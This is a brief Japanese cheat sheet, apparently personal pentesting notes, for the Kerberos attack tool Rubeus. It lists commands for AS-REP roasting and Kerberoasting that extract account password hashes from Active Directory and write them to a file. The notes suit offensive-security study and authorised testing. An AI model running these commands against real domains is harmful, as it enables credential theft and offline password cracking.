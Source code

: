 # Rubeus
Kerberosへの攻撃に使うツール。AS-REP roastingのような攻撃にも使える。

## コマンド集
1. AS-REP Roasting攻撃が有効なアカウントを自動で特定し、そのアカウントのAS-REPにある暗号化された、ユーザのパスワードを抽出する。  
/nowrap => 結果として抽出されるAS-REPハッシュに新しい行を追加させないようにするオプション
```
.\Rubeus.exe asreproast /nowrap
```

2. Kerberoasting攻撃に対して脆弱な可能性があるユーザアカウントを特定して、そのハッシュを出力ファイルに書き込む。
```
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```